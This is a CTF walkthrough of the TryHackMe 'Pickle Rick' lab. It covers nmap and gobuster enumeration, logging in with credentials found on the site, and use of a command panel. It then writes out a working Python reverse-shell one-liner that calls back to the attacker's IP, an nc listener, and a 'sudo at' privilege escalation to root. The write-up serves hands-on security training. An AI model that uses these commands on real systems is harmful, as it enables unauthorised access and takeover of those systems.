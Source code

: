 # Pickle Rick

TryHackMe room link : [Pickle Rick](https://tryhackme.com/room/picklerick)

## Nmap

`nmap -T 4 -sV 10.10.70.96`

```

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 21:24 EDT
Nmap scan report for 10.10.70.96
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.66 seconds
```

lets use gobuster for web directory scanning


## Gobuster

`gobuster dir -u http://10.10.70.96 -w /usr/share/wordlists/dirb/common.txt`

```

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.70.96
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/26 21:25:57 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/assets               (Status: 301) [Size: 311] [--> http://10.10.70.96/assets/]
/index.html           (Status: 200) [Size: 1062]                                
/robots.txt           (Status: 200) [Size: 17]                                  
/server-status        (Status: 403) [Size: 299]                                 
                                                                                
===============================================================
2021/06/26 21:28:23 Finished
===============================================================
```

lets go to `index.html`

view index.html page source code. We got a user name `R*******s`

lets view `robots.txt`

`W****************b` content of robots.txt. This might a password for user `R*******s`

__Not able to ssh login with above credentials__

Chances are that this is might be a user:password for a login page 

lets use gobuster again with different wordlist

```

cp /usr/share/wordlists/dirb/common.txt list.txt
cat list.txt | grep -v .ht > list-non-ht.txt
```

using this wordlist to check for specific php,py,sh files

```

gobuster dir -u http://10.10.70.96/ -w list-non-ht.txt  -x php,sh,py
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.70.96/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                list-non-ht.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,sh,py
[+] Timeout:                 10s
===============================================================
2021/06/26 21:47:42 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.70.96/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                  
/login.php            (Status: 200) [Size: 882]                                 
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                  
/robots.txt           (Status: 200) [Size: 17]                                  
/server-status        (Status: 403) [Size: 299]                                 
                                                                                
===============================================================
2021/06/26 21:55:56 Finished
===============================================================
```

we got login.php

## login.php and portal.php

lets use credentials `R*******s : W****************b` to login 

after successfully logged in we are redirected to portal.php

lets try running some command 

` grep -R .`

scroll down to see the first ingredients

the panel in portal.php executes python3. We can use this to gain a reverse shell, go to [pentest monkey reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
and copy the python code

```

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse shell

use `nc -lnvp PORT(used in above python3 code)` on your local system

After connection got established

```

nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.9.4.169] from (UNKNOWN) [10.10.70.96] 52658
/bin/sh: 0: can't access tty; job control turned off

$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

$ cd /root
/bin/sh: 2: cd: can't cd to /root
```

lets search for sudo permission that we have
```

$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-70-96.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-70-96.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```

$ cd /home
$ ls
rick
ubuntu
$ cd rick
```

lets create an interactive shell

```

$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@ip-10-10-70-96:/home/rick$
```

lets get second ingredients
```

www-data@ip-10-10-70-96:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-70-96:/home/rick$ cat 'second ingredients'
```

lets search for file we can run
```

ww-data@ip-10-10-70-96:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/core/5742/bin/mount
***************************** 
/usr/bin/at
*****************************
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

## Privilege Escalation

use GTFOBins for at

`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null`

We can use this command to get root access

```

www-data@ip-10-10-70-96:/$ 
<    echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
warning: commands will be executed using /bin/sh
job 1 at Sun Jun 27 02:10:00 2021
/bin/sh: 0: can't access tty; job control turned off

# # whoami
whoami
root

# cd root
cd root
# ls
ls
3rd.txt  snap
# cat 3rd.txt
cat 3rd.txt
3rd ingredients: **** *****
# 
```








